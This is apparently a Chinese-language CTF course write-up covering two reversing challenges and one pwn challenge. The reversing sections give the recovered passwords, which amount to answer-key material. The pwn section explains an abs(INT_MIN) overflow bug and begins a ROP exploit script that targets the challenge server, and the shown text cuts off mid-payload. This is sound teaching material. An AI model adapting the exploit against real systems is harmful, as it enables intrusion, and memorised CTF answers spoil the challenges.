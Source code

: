 ![](https://i.imgur.com/x7oa3bj.png)
![](https://i.imgur.com/9KwEftS.png)

### PokemonGo(reverse) 范航熏
1. 題目給了一個 GO program運行時的trace, 但包含了system function的trace 所以有很多跟原本main程式邏輯無關的trace, 多達1萬多行, 利用以下程式簡化
```python=
with open("./log") as f:
    cont = f.read()
f = open("./temp", "w+")
lines = cont.split("\n")
lines = lines[7389:]
skip = False
for line in lines:
    if "Entering fmt.Println" in line:
        skip = True
    elif "Entering fmt.Scanf" in line:
        skip = True
    elif "Leaving fmt.Println" in line:
        skip = False
        continue
    elif "Leaving fmt.Scanf" in line:
        skip = False
        continue
    if skip:
        continue
    f.write(line+'\n')
f.close()

```
2. 由PikaCheck 這個function 可以看到它把長度為20的輸入, 先將相鄰的兩個element相加, 形成新的array, 之後在一個byte一個byte跟固定的常數相減, 並把全部相減的結果相加, 若為總和為0則是對的
3. 因此由固定的常數, 加上猜測第一個element是在 A-Z0-9a-z之間, 就可以決定出正確的密碼是 `PikAPikApikaPikap1Ka`

### YugiMuto(reverse) 范航熏
1. 題目給一個Gameboy ROM, 利用BGB debugger開啟, 可以看到這個程式要求輸入一串密碼, 輸入錯誤會顯示 no no no 的畫面
2. 閱讀Gameboy CPU manual和反組譯後的指令, 發現畫面改變的function是在 0x1619開始, 會根據 bc register丄存的值, 一個tile一個tile修改VRAM上的tile number, 因此bc register尚存的記憶體位即是要顯示的畫面; 再往前看, 發現位於0x15f4的function會修改bc register的值(根據stack上的資料)再呼叫call 0x1619, 因此我們只要找到它是在哪邊 call 0x15f4, 那附近就是判斷輸入是否正確的code
3. 再找到輸入正確時顯示的畫面是存在0xc4c8之後, 就發現附近有檢查輸入是否正確的function在 0x0e61
4. 追蹤0x0e61的function, 發現他的行為是把輸入字串對應的tile number, 和固定值 `0x10 0x09 0x0e 0x1a 0x08 0x10 0x05 0x1a 0x20 0x16 0x02 0x13 0x06 0x08 0x02 0x0e 0x23 0x03 0x20 0x1a`
5. 從VRAM table找到對應的字元是 `OHMYGODY0UAREGAM3B0Y`

### impossible(pwn) 范航熏
1. 由source code可以看到, local buffer 讀的長度是由使用者輸入的, 但長度無法超過0x100, 因此無法buffer overflow
2. 當輸入的長度為負數時, 會經過 abs這個function做 2's complement轉成正數, 利用2補數的負為限制, 當輸入的len為 int所能表示的最大複數時 (0x80000000), abs(0x80000000abs(0x80000000), 而 0x80000000在輸入給read實會被當成正數, 因此可以觸發buffer overflow
3. 利用buffer overflow 修改return address來觸發ROP
```python=
r = remote('eductf.zoolab.org', 10105)
l = ELF('./libc-2.27.so')

got_puts = 0x4005b0
got_libc_start_main = 0x600ff0
main = 0x400748

pop_rdi = 0x400873


payload = flat(
        'a' * 0x100,
        0x400810,
```